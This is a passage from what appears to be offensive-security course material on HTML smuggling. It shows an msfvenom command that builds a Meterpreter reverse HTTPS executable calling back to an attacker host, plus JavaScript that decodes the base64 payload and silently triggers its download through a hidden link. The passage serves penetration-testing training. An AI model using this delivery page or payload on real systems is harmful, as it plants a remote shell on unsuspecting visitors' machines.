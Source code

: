 ```
function base64ToArrayBuffer(base64) 
{
  var binary_string = window.atob(base64);
  var len = binary_string.length;
  var bytes = new Uint8Array( len );
  for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
  return bytes.buffer;
}
```

> Listing 13 - Base64 decoding function in JavaScript

Finally, we can generate a windows/x64/meterpreter/reverse\_https payload using our now-familiar syntax and convert it to base64:

```
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/msfstaged.exe
...
Payload size: 694 bytes
Final size of exe file: 7168 bytes
Saved as: /var/www/html/msfstaged.exe

kali@kali:~$ base64 /var/www/html/msfstaged.exe 
TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAyAAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1v
...
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA==
```

> Listing 14 - Generating and Base64 encoding the Meterpreter executable

Before embedding the Base64-encoded executable, we must remove any line breaks or newlines, embedding it as one continuous string. Alternatively, we could wrap each line in quotes.

Now let's put everything together. First, our Base64 code is placed into an array buffer, byte-by-byte. We'll then place the array buffer into our Blob. Next, we'll create a hidden "a" tag. The data from our Blob is then moved to the href reference of our "a" tag. Our Blob code in the href is given the file name of 'msfnonstaged.exe'. Finally, a click action is performed to download our file. The complete webpage used to trigger the HTML smuggling with the Meterpreter executable is given below:

```
<html>
    <body>
        <script>
          function base64ToArrayBuffer(base64) {
      var binary_string = window.atob(base64);
      var len = binary_string.length;
      var bytes = new Uint8Array( len );
      for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
      return bytes.buffer;
      }
      
      var file ='TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAA...
      var data = base64ToArrayBuffer(file);
      var blob = new Blob([data], {type: 'octet/stream'});
      var fileName = 'msfstaged.exe';
      
      var a = document.createElement('a');
      document.body.appendChild(a);
      a.style = 'display: none';
      var url = window.URL.createObjectURL(blob);
      a.href = url;
      a.download = fileName;
      a.click();
      window.URL.revokeObjectURL(url);
```